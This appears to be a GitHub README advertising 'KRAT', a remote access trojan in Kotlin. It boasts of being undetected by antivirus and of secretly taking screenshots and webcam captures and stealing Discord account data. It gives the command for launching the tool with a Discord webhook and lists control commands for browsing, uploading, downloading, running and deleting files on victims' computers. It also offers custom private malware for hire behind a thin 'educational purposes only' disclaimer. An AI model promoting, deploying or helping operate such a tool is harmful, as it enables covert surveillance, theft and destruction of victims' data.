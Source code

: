 ### Current status: 🟢[Undetected](https://www.virustotal.com/gui/file/4010a8370f3473ba80ddc202cca45f5d310b344ed2e773989aff003cbea71495?nocache=1)

# KRAT

A RAT (Remote Access Trojan) written in Kotlin.

## Features
- Get periodicals screenshots
- Get real-time webcam
- Sends Discord account information
- On-demand actions
- Everything silently and undetectable by antivirus

## Usage
1. Download the latest release and put it on a server
2. Run the `.jar` file with your Discord webhook link as parameter

```sh
java -jar KRAT.jar <webhook-link>
```

## On-demand actions
- `/computers`: get all infected computers
- `/webcam`: take a webcam capture and send it
- `/screenshot`: take a screenshot and send it
- `/filetree`: sends the victim's file tree
- `/upload <link> <absolute-path>`: upload a file to the victim
- `/download <absolute-path>`: download a file from the victim
- `/run <file>`: execute a file on the victim's computer
- `/delete <absolute-path>`: delete a file from the victim's computer

[//]: # (3. The program will connect to your Discord bot and ask for configuration)

## Stack
- [Kotlin](https://kotlinlang.org/)
- [Coroutines](https://github.com/Kotlin/kotlinx.coroutines) (asynchronous programming)
- [Ktor](https://ktor.io/) (client-server communication)
- [DiscordKt](https://github.com/DiscordKt/DiscordKt)
- [Kord](https://kordlib.github.io/kord/)
- [webcam-capture](https://github.com/sarxos/webcam-capture)

## Tailored software
Do you need private software customized to your specific needs?

Contact me on Discord : **_@lished_**

## Disclaimer

Educational purposes only.